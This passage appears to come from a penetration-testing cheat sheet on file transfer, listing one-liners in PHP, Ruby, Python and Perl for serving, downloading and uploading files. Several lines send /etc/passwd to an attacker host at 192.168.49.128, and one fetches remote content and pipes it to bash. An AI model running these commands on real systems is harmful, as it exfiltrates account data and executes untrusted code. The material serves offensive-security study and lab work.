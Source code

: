 ```

#### PHP
```$ php -S 0.0.0.0:8000```

#### Ruby 

```$ ruby -run -ehttpd . -p8000```

#### File Upload using SCP

```$ scp /etc/passwd username@192.168.49.128:/home/plaintext/```

- Note: Remember that scp syntax is similar to cp or copy.
    


## Programming languages

## Python3
```
$ python3 -c 'import urllib.request;urllib.request.urlretrieve("url", "outputfile")'
```

#### Uploading a File Using a Python One-liner

- Start the server
```
$ python3 -m uploadserver
```
- Upload from client
```
$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```




## PHP
```
$ php -r '$file = file_get_contents("url"); file_put_contents("output_filename",$file);'
```


#### PHP Download with Fopen()
```
$ php -r 'const BUFFER = 1024; $fremote =  fopen("url", "rb"); $flocal = fopen("filename", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

#### PHP Download a File and Pipe it to Bash

```
$ php -r '$lines = @file("url"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```


## Perl 
```
$ perl -e 'use LWP::Simple; getstore("url", "filename");'
```
## JavaScript


```